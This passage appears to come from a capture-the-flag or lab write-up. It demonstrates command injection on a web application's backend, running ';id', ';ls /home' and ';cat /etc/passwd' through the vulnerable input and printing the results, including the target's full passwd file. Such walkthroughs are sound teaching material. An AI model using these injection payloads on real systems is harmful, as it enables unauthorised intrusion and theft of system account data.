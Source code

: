 **Success!** according the output, we're able to inject Linux command and run it on the backend server (target). Now we can play with the malicious payloads and poke around the target file system:
* `;id` to find what user the web application is using 

```console
uid=48(apache) gid=48(apache) groups=48(apache)
```

apache it is.

* `;ls /home` to list home dirs of all users on the machine 

```console
harold
john
```

* `;cat /etc/passwd` retrieve passwd file

```console
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
```
